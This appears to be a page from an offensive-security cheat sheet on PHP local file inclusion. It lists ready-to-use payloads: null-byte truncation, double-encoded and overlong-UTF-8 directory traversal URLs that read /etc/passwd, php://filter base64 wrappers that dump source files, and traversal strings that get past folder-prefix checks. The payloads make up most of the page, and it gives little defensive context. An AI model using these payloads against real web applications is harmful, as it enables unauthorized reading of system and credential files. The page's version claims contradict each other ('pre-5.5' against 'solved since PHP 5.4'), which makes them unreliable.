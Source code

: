 **Null Bytes**

Pre-5.5 PHP versions are vulnerable to null byte injections (`%00`). Adding `%00` truncates appended extensions (/`etc/passwd%00.php`) and includes only the path before the null byte `(**/etc/passwd**`).

PHP

This is **solved since PHP 5.4**

```php
<http://127.0.0.1/index.php?language=/etc/passwd%00>

<http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00>

<http://example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd>

```

### PHP Filters for Exploiting LFI

#### Leveraging PHP Filters

[PHP Filters](https://www.php.net/manual/en/filters.php) serve as specialized PHP wrappers that allow input to be filtered according to specified criteria. For LFI attacks, the `php://filter/` wrapper is particularly useful

#### PHP Filter Types

#### **php://filter**

1. **String Filters:** Modify strings based on specified rules.
2. **Conversion Filters:** Convert data between different formats (`convert.*`), useful for altering how data is read from files.
3. **Compression Filters:** Compress or decompress data on the fly (`zlib.*`).
4. **Encryption Filters:** Encrypt or decrypt data (`mcrypt.*`, `mdecrypt.*`).

```php
#encodeing
php://filter/convert.base64-encode/resource=<filename.php> #php,json,py etc..

#Decoding
php://filter/convert.base64-decode/resource=<filename.php>

#php://f
echo file_get_contents("php://fd/3");
$myfile = fopen("/etc/passwd", "r");
```

#### **From existent folder**

Maybe the back-end is checking the folder path:

Copy

```php
<http://example.com/index.php?page=utils/scripts/../../../../../etc/passwd>
or using private

<http://example.com/index.php?page=private/../../../../etc/passwd> # depth of 3+1=4

<http://example.com/index.php?page=../../../var/www/private/../../../etc/passwd>

```

